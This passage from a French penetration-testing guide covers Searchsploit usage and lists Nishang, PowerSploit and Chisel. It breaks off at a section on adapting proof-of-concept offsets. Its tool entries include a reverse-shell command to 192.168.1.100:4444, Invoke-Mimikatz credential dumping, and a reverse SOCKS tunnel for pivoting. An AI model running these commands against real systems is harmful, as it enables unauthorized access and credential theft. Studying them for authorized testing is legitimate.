 Le workflow typique avec Searchsploit commence par une recherche ciblée. Par exemple, `searchsploit wordpress 5.7` liste tous les exploits disponibles pour cette version de WordPress. Les résultats incluent le chemin vers les fichiers d'exploit locaux, généralement stockés dans `/usr/share/exploitdb/exploits/`.

Pour examiner un exploit sans l'ouvrir complètement, la commande `searchsploit -x 12345` affiche le contenu du fichier correspondant à l'ID 12345. Cette fonctionnalité permet d'évaluer rapidement la pertinence et la complexité de l'exploit.

Lorsqu'un exploit pertinent est identifié, il peut être copié dans le répertoire de travail via `searchsploit -m 12345`. Cette commande crée une copie locale de l'exploit, préservant l'original et permettant des modifications sans affecter la base de données.

Pour maintenir la base de données à jour, la commande `searchsploit -u` synchronise le référentiel local avec la dernière version d'Exploit-DB, garantissant l'accès aux exploits les plus récents.

### 3.3 Frameworks et outils complémentaires

Au-delà de Metasploit, plusieurs frameworks et outils spécialisés enrichissent l'arsenal du pentesteur pour des scénarios spécifiques.

**Nishang** - Framework PowerShell pour tests d'intrusion
* But : Fournir des scripts PowerShell pour toutes les phases de pentest
* Commande de base : `. .\nishang.ps1; Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 4444`
* Prérequis : Environnement PowerShell
* Atouts : Exécution en mémoire, contournement de contrôles applicatifs
* Limites : Détection par solutions EDR modernes
* Contexte idéal : Post-exploitation dans environnements Windows

**PowerSploit** - Framework PowerShell avancé
* But : Fournir des capacités avancées de post-exploitation
* Commande de base : `Import-Module .\PowerSploit.psd1; Invoke-Mimikatz`
* Prérequis : PowerShell, souvent contournement AMSI nécessaire
* Atouts : Modules puissants, techniques avancées
* Limites : Signatures connues, détection améliorée
* Contexte idéal : Post-exploitation approfondie sur Windows

**Chisel** - Outil de tunneling TCP/UDP
* But : Créer des tunnels réseau pour contourner les restrictions
* Commande de base : `./chisel server -p 8080 --reverse` (serveur) et `./chisel client 192.168.1.100:8080 R:socks` (client)
* Prérequis : Binaires compilés pour la plateforme cible
* Atouts : Léger, multi-plateforme, tunnels SOCKS
* Limites : Nécessite un accès initial
* Contexte idéal : Pivoting réseau, contournement de segmentation

### 3.4 Adaptation de Proof of Concepts (PoC)

L'adaptation de Proof of Concepts (PoC) constitue une compétence avancée essentielle, particulièrement pour les vulnérabilités récentes ou spécifiques. Cette pratique implique la modification d'exploits existants pour les adapter à un environnement cible particulier.

#### Techniques d'adaptation d'offsets
